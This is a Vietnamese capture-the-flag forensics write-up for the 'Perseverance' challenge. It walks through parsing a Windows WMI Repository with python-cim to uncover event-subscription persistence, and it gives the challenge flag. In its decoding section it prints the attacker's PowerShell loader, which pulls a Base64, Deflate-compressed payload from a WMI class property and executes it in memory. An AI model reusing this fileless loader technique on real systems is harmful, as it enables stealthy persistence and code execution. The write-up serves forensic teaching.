






# Challenge Perseverance

## 1. Đầu vào challenge

Đầu vào challenge cung cấp các file của **WMI Repository**.



---

## 2. Kiến thức ngoài lề về WMI Repository

Đây là **WMI** (*Windows Management Instrumentation*) Repository của Windows.  
Nó là hệ thống quản trị của Windows, cho phép:

- truy vấn thông tin máy
- theo dõi sự kiện hệ thống
- tự động chạy hành động khi có điều kiện xảy ra

WMI Repository thường nằm ở:

```text
C:\Windows\System32\wbem\Repository\
```

### `OBJECTS.DATA`

Đây là file quan trọng nhất. Chứa dữ liệu chính của repository, như:

- class WMI
- instance của class
- namespace
- các object liên quan tới event subscription

### `INDEX.BTR`

Đây là file index của repository.

- `OBJECTS.DATA` là nơi chứa nội dung
- `INDEX.BTR` là nơi giúp hệ thống tra cứu object nào nằm ở đâu

`BTR` thường liên quan tới cấu trúc kiểu **B-tree** để index.


### `MAPPING1.MAP`, `MAPPING2.MAP`, `MAPPING3.MAP`

Đây là các file mapping / metadata nội bộ của WMI repository.

Vai trò chính:

- hỗ trợ ánh xạ dữ liệu trong repository
- giúp engine của WMI biết page / segment nào tương ứng chỗ nào
- phục vụ truy cập và khôi phục dữ liệu

---

## 3. Dùng `python-cim` để dump WMI Repository

Để dump trực tiếp nội dung thật trong WMI Repository, sử dụng **python-cim** của `flare-wmi`.

### Kiến thức ngoài lề

`python-cim` là bộ parser chuyên dụng để đọc offline WMI Repository của Windows. Thay vì chỉ quét chuỗi trong `OBJECTS.DATA`, tool này phân tích đúng cấu trúc của repository như `OBJECTS.DATA`, `INDEX.BTR` và các file `MAPPING*.MAP`, từ đó trích xuất được:

- class
- instance
- namespace
- các object liên quan tới WMI persistence

Tool này giúp dump ra nội dung thật của WMI Repository theo đúng cấu trúc dữ liệu bên trong, đặc biệt khi phân tích các cơ chế persistence như:

- `__EventFilter`
- `CommandLineEventConsumer`
- `__FilterToConsumerBinding`

Trong context của `python-cim`, `win7` là kiểu format WMI Repository mà tool dùng để parse.  
Script đó thường chỉ cho 2 mode chính:

- `xp`
- `win7`

Trong đó:

- `xp` dùng cho kiểu repository cũ, thời Windows XP / đời rất cũ
- `win7` dùng cho kiểu repository mới hơn, áp dụng cho Windows 7 trở lên trong rất nhiều trường hợp, gồm cả các bản Windows hiện đại như Windows 10 / Server mới nếu repository theo cùng kiểu đó

Sử dụng command:

```bash
python3 samples/show_filtertoconsumerbindings.py win7 ~/bksec/trainning/easy/Perseverance
```

Sau khi dump ra data thấy được 1 đoạn Base64.



---

## 4. Decode đoạn Base64 đầu tiên

Decode đoạn Base64 này thu được script:

```powershell
$file = ([WmiClass]'ROOT\cimv2:Win32_MemoryArrayDevice').Properties['Property'].Value

sv o (New-Object IO.MemoryStream)

sv d (New-Object IO.Compression.DeflateStream(
    [IO.MemoryStream][Convert]::FromBase64String($file),
    [IO.Compression.CompressionMode]::Decompress
))

sv b (New-Object Byte[](1024))

sv r (gv d).Value.Read((gv b).Value, 0, 1024)

while ((gv r).Value -gt 0) {
    (gv o).Value.Write((gv b).Value, 0, (gv r).Value)
    sv r (gv d).Value.Read((gv b).Value, 0, 1024)
}

[Reflection.Assembly]::Load((gv o).Value.ToArray()).EntryPoint.Invoke(0, @(,[string[]]@())) | Out-Null
```

### Phân tích

#### Dòng đầu tiên

```powershell
$file = ([WmiClass]'ROOT\cimv2:Win32_MemoryArrayDevice').Properties['Property'].Value
```

Truy cập một WMI class tên là `Win32_MemoryArrayDevice` ở namespace `ROOT\cimv2`, rồi lấy giá trị property tên `Property` và lưu vào biến `$file`.

Vậy ở đây attacker đang **giấu payload trong WMI**.

#### Tạo bộ nhớ đệm

```powershell
sv o (New-Object IO.MemoryStream)
```

Chuẩn bị một vùng nhớ để chứa dữ liệu sau khi giải nén.

#### Giải mã và giải nén

```powershell
sv d (New-Object IO.Compression.DeflateStream(
    [IO.MemoryStream][Convert]::FromBase64String($file),
    [IO.Compression.CompressionMode]::Decompress
))
```

Đoạn này thực hiện:

- biến chuỗi Base64 thành bytes
- ép bytes đó thành `MemoryStream`
- giải nén bằng **Deflate**

### Flow attacker sử dụng

```text
WMI property -> Base64 decode -> Deflate decompress
```

Vậy sau khi hiểu được cách attacker giấu payload, giờ cần dump payload đó đang nằm trong WMI class `Win32_MemoryArrayDevice`.

---

## 5. Dump class `Win32_MemoryArrayDevice`

Dùng command:

```bash
python3 samples/dump_class_definition.py win7 ~/bksec/trainning/easy/Perseverance "root\\cimv2" "Win32_MemoryArrayDevice"
```

Sau khi dump ra thì lấy được `property_data` của class `Win32_MemoryArrayDevice`, đang ở dạng hex.



Sau đó convert hex sang text để lấy được đúng giá trị của property `Property`, thu được đoạn Base64.



Vậy giờ chỉ cần decode Base64 ra binary, extract bằng Deflate.

---

## 6. Giải nén payload stage 2

```python
import zlib

data = open("extract.bin", "rb").read()
out = zlib.decompress(data, -15)
open("stage2.exe", "wb").write(out)
```

Sau khi có file `stage2.exe`, mở file bằng **ILSpy** để phân tích. Đoạn đáng chú ý nhất là đoạn này.



Từ dòng:

```csharp
byte[] key = Convert.FromBase64String(stringBuilder.ToString());
```

biết được là key ở đây được lấy từ chuỗi `stringBuilder`. Nhìn lên trên thấy `stringBuilder` được ghép từ nhiều chuỗi Base64 khác nhau. Vì vậy thử ghép lại cả chuỗi `stringBuilder` rồi decode thì thu được flag là:

```text
HTB{1_th0ught_WM1_w4s_just_4_M4N4g3m3nt_T00l}
```



---

## 7. Flow phân tích

```text
WMI Repository files
   |
   v
xác định đây là dữ liệu WMI Repository của Windows
   |
   v
ưu tiên phân tích bằng python-cim
   |
   v
dùng show_filtertoconsumerbindings.py
   |
   v
thu được 1 đoạn Base64 khả nghi
   |
   v
decode Base64
   |
   v
ra PowerShell script
   |
   v
nhận ra script đọc property từ:
ROOT\\cimv2:Win32_MemoryArrayDevice
   |
   v
hiểu được flow:
WMI property -> Base64 -> Deflate -> Assembly.Load
   |
   v
dùng dump_class_definition.py để dump class Win32_MemoryArrayDevice
   |
   v
lấy property_data ở dạng hex
   |
   v
convert hex sang text để lấy đúng Base64 trong property Property
   |
   v
decode Base64 ra binary
   |
   v
giải nén Deflate thành stage2.exe
   |
   v
mở stage2.exe bằng ILSpy
   |
   v
nhận ra key được ghép từ nhiều chuỗi Base64 trong stringBuilder
   |
   v
ghép lại và decode
   |
   v
thu được flag

```
